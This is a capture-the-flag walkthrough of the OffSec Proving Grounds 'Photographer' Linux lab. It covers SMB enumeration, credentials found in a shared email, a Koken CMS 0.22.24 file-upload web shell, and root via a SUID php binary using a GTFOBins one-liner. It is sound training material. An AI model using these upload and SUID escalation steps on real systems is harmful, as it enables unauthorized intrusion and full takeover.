 ```yaml
---
title: "Proving grounds Play: Photographer"
layout: post
date: 2023-09-25 02:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 414daa1886948e88a74c6b426076f14f (RSA)
|   256 4da3d07a8f64ef82452d011318b7e013 (ECDSA)
|_  256 1a017a4fcf9585bf31a14f1587ab94e2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Photographer by v1n1v131r4
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu)) Koken 0.22.24
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 8000

![img](/assets/images/CTF/Proving_Grounds/Photographer/web1.png)

The meta data in the landing page `http://192.168.193.76:8000/` source revealed the CMS version.

```html
<meta name="generator" content="Koken 0.22.24" />
```
The version `Koken 0.22.24` is vulnerable to [Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)](https://www.exploit-db.com/exploits/48706).

### Directory Fuzzing

http://192.168.193.76:8000/admin/

![img](/assets/images/CTF/Proving_Grounds/Photographer/web2.png)

## SMB Share

Enumerate smb share.

```sh
naveenj@hackerspace:|22:56|~/pg-play/Photographer$ smbclient -L //192.168.193.76/ -N

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
```

Connect to SMB share.

```sh
naveenj@hackerspace:|22:56|~/pg-play/Photographer$ smbclient  //192.168.193.76/sambashare -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Aug 20 11:51:08 2020
  ..                                  D        0  Thu Aug 20 12:08:59 2020
  mailsent.txt                        N      503  Mon Jul 20 21:29:40 2020
  wordpress.bkp.zip                   N 13930308  Mon Jul 20 21:22:23 2020
```

Download mailsent.txt file and view to obtain the credentials for the admin portal.

```text
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```

## Credentials

`daisa@photographer.com: babygirl`
Login to the koen admin portal.

## Initial Foothold

After login to the admin portal Direct to `Library - Content - Import Content`.

Create a php remote code execution code or a php reverse shell and save it as `image.php.jpg`. Use Burp Suite to intercept the image upload traffic and change the file name to `image.php`.

Once the file is uploaded click on the file and on the right side scroll down and click view option. Then hover over the image download button and click to trigger the reverse shell.

```text
http://192.168.193.76:8000/storage/originals/f2/10/image.php?cmd=id
```

![img](/assets/images/CTF/Proving_Grounds/Photographer/shell.png)

## Privilege Escalation

### SUID

Enumerate the SUIDs in the sysytem.

```sh
www-data@photographer:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2     #Exploitable
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
www-data@photographer:/$
```

### GTFO Bins

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```sh
sudo install -m =xs $(which php) .

    CMD="/bin/sh"
    ./php -r "pcntl_exec('/bin/sh', ['-p']);"
```

![img](/assets/images/CTF/Proving_Grounds/Photographer/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).